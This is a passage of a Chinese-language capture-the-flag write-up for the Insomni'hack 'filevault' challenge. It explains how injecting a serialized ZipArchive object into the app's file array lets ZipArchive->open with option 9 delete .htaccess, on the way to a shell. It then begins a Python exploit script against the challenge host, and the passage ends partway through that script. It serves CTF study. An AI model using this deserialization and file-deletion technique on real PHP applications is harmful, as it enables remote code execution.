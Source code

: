 ```
$ php list.php
SQLite3-&gt;open
SessionHandler-&gt;open
XMLReader-&gt;open
ZipArchive-&gt;open
```

经过寻找，我们一共发现有4个类带有open()方法。如果在$files数组中，注入这些类中任意一个的序列化对象，我们就可以通过带有特定参数的open动作，来调用这些类中的方法。

幸运的是，大部分类都能够对文件进行操作。回顾之前的研究过程，我们知道.htaccess会阻止我们执行PHP。所以，假如能通过某种方式删掉.htaccess文件，那这一题就搞定了。

现在，我们在本地去测试每个类的行为。经过一段时间的测试之后，我发现，ZipArchive-&gt;open方法可以删除目标文件，前提是我们需要将其第二个参数设定为“9”。

为什么要设定为9呢？原因在于， ZipArchive-&gt;open()的第二个参数是“指定其他选项”。而9对应的是ZipArchive::CREATE | ZipArchive::OVERWRITE。由于ZipArchive打算覆盖我们的文件，所以就会先对其进行删除。在此，感谢[@pagabuc](https://github.com/pagabuc)帮助我们解释了这一参数的具体意义。

那么现在，我们就可以使用ZipArchive-&gt;open()来删除.htaccess文件。



## 获得Shell

最激动人心的时刻到了，我们来开发最终的有效载荷。

我写了一个Python脚本，以对Web应用程序实现自动化操作。

```
#!/usr/bin/env python2

import requests
import urllib

URL = "http://filevault.teaser.insomnihack.ch/"
s = requests.Session()

def upload(name):
    files = `{`'vault_file': (name, 'GARBAGE')`}`
    params = `{` "action" : "upload" `}`
    s.post(URL, params=params, files=files)

def rename(index, new_name):
    data = `{` "newname" : new_name `}`
    params = `{`
        "action" : "changename",
        "i" : index
    `}`
    s.post(URL, params=params, data=data)

def open_file(index):
    params = `{`
        "action" : "open",
        "i" : index
    `}`
return s.get(URL, params=params).text
```
